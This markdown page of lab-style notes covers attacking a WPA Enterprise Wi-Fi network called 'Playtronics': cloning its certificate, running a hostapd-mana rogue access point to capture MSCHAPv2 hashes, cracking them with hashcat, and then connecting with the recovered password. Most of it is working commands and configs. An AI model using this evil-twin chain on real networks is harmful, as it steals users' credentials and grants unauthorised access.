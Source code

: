 ## WPA Enterprise

```text
sudo airodump-ng wlan0mon
```
```text
BSSID              PWR Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
FC:EC:DA:8F:2E:90  -40     639       19    1   2  300. WPA2 CCMP   MGT  Playtronics
```
MGT, meaning WPA Enterprise

####To view Certificate for SSID
```text
sudo airodump-ng wlan0mon -w Playtronics
```
Review in wireshark with filter "wlan.bssid=FC:EC:DA:8F:2E:90 && eap && tls.handshake.certificate"
in the submenus of the reviewed packet - open EAP -> TLS -> Certificate -> Certificates

The certificate once exported can be reviewed with openssl to get the 

openssl x509 -inform der -in cert.der text
 
### To mimick this AP

### Setup Certificates

```text
sudo apt install freeradius
sudo -s
cd /etc/freeradius/3.0/certs
```

```text
nano ca.cnf
....
[certificate_authority]
countryName             = US
stateOrProvinceName     = CA
localityName            = San Francisco
organizationName        = Playtronics
emailAddress            = ca@playtronics.com
commonName              = "Playtronics Certificate Authority"
....
```

```text
nano server.cnf
....
[server]
countryName             = US
stateOrProvinceName     = CA
localityName            = San Francisco
organizationName        = Playtronics
emailAddress            = admin@playtronics.com
commonName              = "Playtronics"
....
```

```text
rm dh
make destroycerts
```

### Setup hostapd-mana - AP
```text
sudo apt install hostapd-mana
```
```text
nano /etc/hostapd-mana/mana.conf

ssid=Playtronics
interface=wlan0
driver=nl80211
channel=1
hw_mode=g
ieee8021x=1
eap_server=1
eapol_key_index_workaround=0
eap_user_file=/etc/hostapd-mana/mana.eap_user
ca_cert=/etc/freeradius/3.0/certs/ca.pem
server_cert=/etc/freeradius/3.0/certs/server.pem
private_key=/etc/freeradius/3.0/certs/server.key
private_key_passwd=whatever
dh_file=/etc/freeradius/3.0/certs/dh

auth_algs=1
wpa=3
wpa_key_mgmt=WPA-EAP
wpa_pairwise=CCMP TKIP

mana_wpe=1
mana_credout=/tmp/hostapd.credout
mana_eapsuccess=1
mana_eaptls=1
```
```text
nano /etc/hostapd-mana/mana.eap_user

*     PEAP,TTLS,TLS,FAST
"t"   TTLS-PAP,TTLS-CHAP,TTLS-MSCHAP,MSCHAPV2,MD5,GTC,TTLS,TTLS-MSCHAPV2    "pass"   [2]
```


### Start the AP with certificate
```text
sudo hostapd-mana /etc/hostapd-mana/mana.conf
```

### Output
```text
MANA EAP EAP-MSCHAPV2 ASLEAP user=user1 | asleap -C 5f:57:b0:b6:d1:6d:e0:82 -R e7:db:11:00:06:f7:49:02:0e:e9:17:61:c8:d2:d4:a4:e5:4b:a7:fa:9b:97:81:4e
MANA EAP EAP-MSCHAPV2 JTR | user1:$NETNTLM$5f57b0b6d16de082$e7db110006f749020ee91761c8d2d4a4e54ba7fa9b97814e:::::::
MANA EAP EAP-MSCHAPV2 HASHCAT | user1::::e7db110006f749020ee91761c8d2d4a4e54ba7fa9b97814e:5f57b0b6d16de082
```


### Crack with Asleap
I could not get this to work ....
```text
asleap -C 5f:57:b0:b6:d1:6d:e0:82 -R e7:db:11:00:06:f7:49:02:0e:e9:17:61:c8:d2:d4:a4:e5:4b:a7:fa:9b:97:81:4e -W /usr/share/john/password.lst
```


### Crack with Hashcat
5500 | NetNTLMv1 / NetNTLMv1+ESS

```text
echo user1::::e7db110006f749020ee91761c8d2d4a4e54ba7fa9b97814e:5f57b0b6d16de082 > wpa_enterprise.txt
hashcat -m 5500 wpa_enterprise.txt rockyou.txt

user1::::e7db110006f749020ee91761c8d2d4a4e54ba7fa9b97814e:5f57b0b6d16de082:password1
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5500 (NetNTLMv1 / NetNTLMv1+ESS)
```

### Connect to real Wifi
```text
nano /home/<user>/wificonnection.conf

network={
scan_ssid=1
eap=PEAP
ssid="YOUR_SSID"
key_mgmt=WPA-EAP
identity="YOUR_USERNAME"
password="YOUR_PASSWORD"
phase1="peaplabel=0"
phase2="auth=MSCHAPV2"
}

wpa_supplicant -B -i wlan0 -c /home/<user>/wificonnection.conf
dhclient wlan0
```
Or reduced verion if the first is causing issues

```text
nano /home/<user>/wificonnection.conf

network={
mode=0
scan_ssid=1
ssid="YOUR_SSID"
key_mgmt=WPA-EAP
identity="YOUR_SSID\YOUR_USERNAME"
password="YOUR_PASSWORD"
}

wpa_supplicant -B -i wlan0 -c /home/<user>/wificonnection.conf
dhclient wlan0
```





https://7thzero.com/blog/wifi-from-the-cli-in-linux-using-wpa_supplicant










